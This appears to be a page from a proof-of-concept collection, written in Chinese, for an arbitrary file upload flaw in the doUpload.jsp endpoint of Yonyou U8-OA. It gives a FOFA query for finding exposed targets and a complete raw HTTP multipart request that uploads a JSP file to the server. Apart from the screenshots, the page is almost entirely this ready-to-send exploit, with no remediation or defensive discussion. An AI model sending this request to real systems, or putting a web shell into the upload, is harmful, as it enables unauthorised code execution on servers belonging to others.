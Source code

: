 ## 用友U8-OA协同工作系统doUpload.jsp任意文件上传漏洞

## fofa
```
"用友U8 Cloud"
```
![image](https://github.com/wy876/POC/assets/139549762/c39bc2dc-867f-451b-af53-3ea1093e9546)

## poc
```
POST /yyoa/portal/tools/doUpload.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Connection: closeContent-Type: multipart/form-data; boundary=7b1db34fff56ef636e9a5cebcd6c9a75
Host:
Upgrade-Insecure-Requests: 1
Content-Length: 217

--7b1db34fff56ef636e9a5cebcd6c9a75
Content-Disposition: form-data; name="iconFile"; filename="info.jsp"
Content-Type: application/octet-stream

<% out.println("tteesstt1"); %>
--7b1db34fff56ef636e9a5cebcd6c9a75--
```

![image](https://github.com/wy876/POC/assets/139549762/2beed268-4f9f-4548-bdf9-a8a7f361f660)

